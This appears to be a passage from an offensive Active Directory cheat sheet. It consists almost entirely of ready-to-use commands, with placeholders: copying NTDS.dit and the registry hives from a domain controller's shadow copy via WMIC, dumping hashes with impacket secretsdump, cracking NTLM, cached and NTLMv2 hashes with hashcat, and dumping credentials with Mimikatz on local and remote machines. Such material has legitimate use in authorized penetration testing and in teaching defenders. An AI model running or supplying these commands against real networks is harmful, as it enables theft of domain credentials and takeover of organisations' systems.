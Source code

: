 #### Copy the NTDS.dit, SYSTEM and SECURITY hives
```
wmic /node:<DC FQDN> /user:<USER>@<DOMAIN FQDN> /password:'<PASSWORD>' process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY c:\temp\"
```

#### Mount the C:\temp drive
```
$creds = Get-Credential
New-PSDrive -Credential $creds -Name j \\<DC FQDN>\c$\temp -PSProvider FileSystem
```

#### Extract credentials
```
python3 /opt/impacket/examples/secretsdump.py -system SYSTEM -security SECURITY -ntds ntds.dit local
```

## Hashcat
- If you set usernames in the file use with `<USERNAME:<HASH>` format. Use --Username
#### Crack NTLM
- Format `5b184274dcba7bfd289e8a4f439676a4`
```
.\hashcat.exe -a 0 -m 1000 .\hast.txt .\wordlists\rockyou.txt -r .\rules\dive.rule -w3 -O
```

#### Crack Cached credentials
- Format `$DCC2$#user#7eb833ab3bddade058de4bc672debdde`
```
.\hashcat.exe -a 0 -m 2100 .\hash.txt .\wordlists\rockyou.txt -r .\rules\dive.rule -w3 -O
```

#### Crack NTLMv2
- Format `admin::N46iSNekpT:08ca45b7d7ea58ee:88dcbe4446168966a153a0064958dac6:5c7830315c7830310000000000000b45c67103d07d7b95acd12ffa11230e0000000052920b85f78d013c31cdb3b92f5d765c783030`
```
.\hashcat.exe -a 0 -m 5600 .\hash.txt .\wordlists\rockyou.txt -r .\rules\dive.rule -w3 -O
```

## Mimikatz
- Check out https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md for more commands

#### Mimikatz dump credentials on local machine
```
Invoke-Mimikatz -Dumpcreds
```

#### Mimikatz dump credentials on multiple remote machines
```
Invoke-Mimikatz -Dumpcreds -ComputerName @("<COMPUTERNAME 1>","<COMPUTERNAME2>")
```
